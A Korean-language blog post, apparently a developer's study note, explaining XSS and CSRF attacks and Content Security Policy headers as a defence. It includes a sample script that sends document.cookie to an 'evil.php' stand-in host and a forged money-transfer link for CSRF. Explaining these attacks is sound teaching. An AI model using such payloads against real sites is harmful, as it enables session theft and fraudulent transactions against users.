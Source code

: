 ```yaml
---
title: "웹 보안"
date: "2021-06-03"

---
```


개방형 웹 앱에서는 보안을 확인하는 것이 중요하다. 유저의 개인정보가 유출될수도 있고, 인터넷 은행 같은 서비스에서는 자산적 피해로 이어질 수 있다. 그래서 이 포스트에선 **웹 공격**과 **웹 보안**에 대해 알아보고자 한다.

## 웹 공격

웹 공격에는 대표적으로 두 가지가 있다. 

- [XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting): 세션 하이재킹을 통해 서버와 요청 응답을 주고 받는 공격

```html
<--! 다음과 같은 코드를 공격 웹 사이트에 심어놓음으로 인해 cookie를 evil.php로 전송하여 탈취 -->
<SCRIPT type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</SCRIPT>
```

- [CSRF](https://developer.mozilla.org/en-US/docs/Glossary/CSRF): 인증된 사용자를 통해 원하는 요청을 전송하는 공격

```html
<--! www.example.com/transfer이 송금이고 공격받는 사용자가 인증되었다고 가정했을 때 -->
<--! input 검사를 하지 않는 FAQ 같은 곳에 삽입할 수 있을 것이다. -->
<a href="www.example.com/transfer?account=attackerAccount&amount=$100">자세히 알아보기</a>
```



## 콘텐츠 보안 정책(CSP)

CSP는 XSS처럼 데이터를 삽입해 공격을 하는 막는 보안 계층이다.

일반적으로  [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) 헤더를 사용하고, <meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';"> 이와 같이 meta 태그로 설정할 때도 있다.

가장 중요한 값은 default-src 인데, 이는 인라인 스크립트와 스타일이 실행되는 것을 방지한다. 아래 몇가지 예를 보면서 뜻을 알아보자.

예1) 모든 콘텐츠가 사이트 고유의 출처에서 제공되기를 원함.

```
Content-Security-Policy: default-src 'self'
```

예2) 이미지는 모든 곳에서 제공될 수 있지만, 스크립트는 지정된 서버에서만 허용.

```
Content-Security-Policy: default-src 'self'; img-src *; script-src userscripts.example.com
```

이처럼 리소스 출처에 제한을 두면서 공격에 대처하는 방법이다.



### 

